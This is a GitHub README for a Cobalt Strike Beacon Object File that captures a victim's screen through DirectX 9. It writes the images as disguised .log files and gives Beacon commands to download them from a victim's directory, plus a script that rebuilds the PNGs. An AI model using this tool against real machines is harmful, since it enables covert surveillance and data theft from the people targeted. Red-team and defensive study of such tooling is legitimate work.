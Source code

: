 # DirectX9-Screenshot-BOF
![memez](/img/8gku6o.jpg)
## Overview

Capture Screenshots with DirectX 9   
TBH I haven't tested this too much just seemed like a cool idea

## Notes

- Export screenshots to the **current working directory** as `.log` files
- Output format: `<width>oo<height>.log`
- Reconstruct `.log` files into PNG format locally
- Libraries Used - MSVCRT, OLE32, D3D9

### BOF Execution

Ensure you are in the directory you would like the screenshot exported as. 
```
beacon> cd C:\Users\Victim\AppData\
beacon> screenshot-dx
beacon> download <filename>
```

### Example

![Cobalt Strike Example](/img/cobalt-test.png)

![AutoDownload Example](/img/auto-download.png)
## Image Reconstruction

To reconstruct the image with this script, follow these steps:

1. Install the required packages:
    ```bash
    pip3 install Pillow
    ```

2. Run the script with the desired log file path and output file path:
    ```bash
    python3 assemble.py <logfile> output.png
    ```

### Contributers
Big thanks to ma boy Kyle started this
@kyle41111

